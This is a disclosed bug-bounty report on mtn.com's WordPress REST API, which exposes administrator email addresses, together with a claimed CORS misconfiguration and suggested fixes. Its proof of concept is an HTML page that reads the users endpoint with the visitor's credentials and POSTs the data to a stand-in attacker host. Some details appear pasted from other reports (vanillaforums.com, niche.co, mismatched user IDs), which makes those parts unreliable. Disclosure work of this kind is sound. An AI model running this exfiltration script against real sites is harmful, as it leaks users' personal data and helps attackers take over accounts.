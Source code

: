# Unauthorized access to PII leads to Administrator account Takeover

## Report Details
- **Report ID**: 2450685
- **URL**: https://hackerone.com/reports/2450685
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-04-06T22:17:41.520Z
- **Disclosed**: 2025-02-22T15:48:49.662Z

## Reporter
- **Username**: h0w
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
This vulnerability is present in the `wp-json/wp/v2/users/15` file located in the wordpress directory endpoints. This flaw arises from insufficient restrictions placed on the list of post authors, which can be exploited by remote attackers to obtain sensitive information through wp/v2/users/15 requests attackers can obtain sensitive information in the form of email addresses (PII Leaks) and will be used in `wp-login` to send forget password or brute-force password requests.

**Descriptions:**
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page CORS misconfiguration is found on vanillaforums.com as `Access-Control-Allow-Credentials: true`.

**Platform(s) Affected: [website]**
https://www.mtn.com/wp-json/wp/v2/users/15

## Steps To Reproduce:
  1. Navigate visit hostname or directory on https:\/\/www.mtn.com\/wp-json\/wp\/v2\/users\/9
  1. Intercept request to `burp-suite` and you will see unauthenticated APIs `administrator_login` email address exposed

{F3171358}

  3. copy this scripts and save file as `.html` and open in our browsers 

```html
<!DOCTYPE html>
<html>
<body>
<center>
<h3>Steal administrator PII data!</h3>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://burpcollaborator-intruder-evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://www.mtn.com/wp-json/wp/v2/users/15", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
{F3171366}


## Supporting Material/References:
  * It's possible to remove this access for anyone by change the source code where when someone request the Rest API and the server send a 404 (Not Found) message for the user who made the request.
  * It's also possible to create a rewrite rule on `.htaccess` (if the webserver it's Apache) to redirect any request that contain rest_route (eg.: "^.rest_route=/wp-json/wp/v2/users/15") to a Not Found (404) or a Default Page.

## Impact

1. Attacker get sensitive information PII Leaks (email adress)
 1. Attacker can brute-force the password use the valid administrator login
 1. CORS Misconfiguration, could lead to disclosure of sensitive information
 * Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
 * This website using Wordpress , so developer forget to enable authenticator in the APIs that can view information of admin user. By access to this link, attacker can get `username` and `email_address` and other information of user admin.

## Attachments
- image.png
- CORS.gif
